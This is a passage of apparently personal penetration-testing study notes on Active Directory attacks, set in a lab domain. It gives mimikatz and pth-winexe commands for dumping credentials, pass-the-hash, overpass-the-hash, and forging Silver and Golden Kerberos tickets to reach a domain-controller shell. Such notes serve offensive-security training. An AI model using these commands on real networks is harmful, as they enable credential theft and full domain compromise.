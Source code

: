 		The output will be different in the case the password provided is correct or incorrect and the consequent output will be different (success in case the password is correct. an exception in case it is not correct)
		We can then create a powershell script that will perform this check at a certain brute force rate, based on the lock out period we discovered earlier
Active Directory Lateral Movement:
	Pass the hash:
		It only works on services that use NTLM, not Kerberos
		Let"s see an example of pass the hash attack using the pth-winexe executable from the Pass-the-Hash toolkit: 
			pth-winexe -U offsec%blablantlmhash //10.11.0.22 cmd 
	Overpass the hash:	
		It allows to overabuse a NTLM user hash to get a Kerberos TGT (Service TIcket) that authenticates us access to another machine or service as that user
		First of all, we dump the hashes with mimikatz: mimikatz # sekurls a::logonpasswords
		Then, we need to turn the NTLM hash into a Kerberos ticket...
		We can use again mimikatz to create a PowerShell console run with the privelege of user jeff_admin: mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:blablantlmhash /run:PowerShell.exe
		Within this PowerShell, let us authenticate to a network share on the domain controller in order to generate a TGT: net use \\dc01
		Now we list the cached Kerberos tickets with klist: klist
		And we find the newly requested Kerberos tickets, which includes the TGT and the TGS
		We can use the obtainet TGT with psexec, which does not accept password hashes, but only TGTs. With the following command, we obtain a shell with privelege of user jeff_admin on the domain controller dc01: .\PsExec.exe \\dc01 cmd.exe
	Pass the ticket (Silver Ticket):
		This attack takes advantage of the TGS, which can be exported and reinjected in other machines on the network and then used to authenticate to specific services with no additional authenticatio required if the TGS is in the name of the same user who is trying to authenticate to the server. This attack does not give us additional privilege, but it gives us the flexibility to decide from which machine on the network originate the athentication (not possible in the case of overpassing the hashes). This attack is known as Silver Ticket and we can use mimikatz to create the Silver Ticket.
			First, we need to find the domain SID: whoami /user
			From the user SID output of the whoami /user we need to eliminate the last 4 digits to find the domain SID
			Before creating a new ticket, we flush all existing Kerberos tockets with the command: mimikatz # kerberos::purge
			We verify the purge with the command: mimikatz # kerberos::list
			Finally, to create the Silver Ticket with mimilatz (to note that the flag /ptt means that mimikats inject the Silver Ticket directly in memory): mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:blabladomainsid /target:CorpWebServer.corp.com /service:HTTP /rc4:blablablapasswordhashofhteserviceaccount /ptt
			We can confirm the ticket has been successfully created running again: mimikatz # kerberos::list
Active Directory Persistence:
	Golden Tickets:
		In Kerberos, when a user submits a request for a TGT, the Key Distribution Center (KDC) encrypts the TGT with a secret key, known only to the KDCs in the domain. This secret key is the password hash of a domain user account called krbtgt. If we can get hold of the krbtgt, we can create our own self made TGTs, or Golden Tickets.
		Golden Tickets are the best way to achieve AD persistence.
		The best advantage is that the krbtgt account password is not automatically changed. 
		To exploit this technique, we need to assume we have got Domain Admin access in the network or compromised the Domain Controller itself. With such access, we can extract the password hash of the krbtgt account with mimikatz:
			mimikatz # privilege:debug
			mimikatz # lsadump::lsa /patch
		To create the Golden Ticket, we do not necessarily need to be on the Domain Controller, but any workstation can do that:
			mimikatz # privilege:debug
			mimikatz # kerberos::purge
			mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:blablabladomainsid /krbtgt:blablablakrbtgtpasswordhash /ptt
		With the Golden Ticket injected into memory, we can now launch a new command prompt with misc::cmd:
			mimikatz # misc::cmd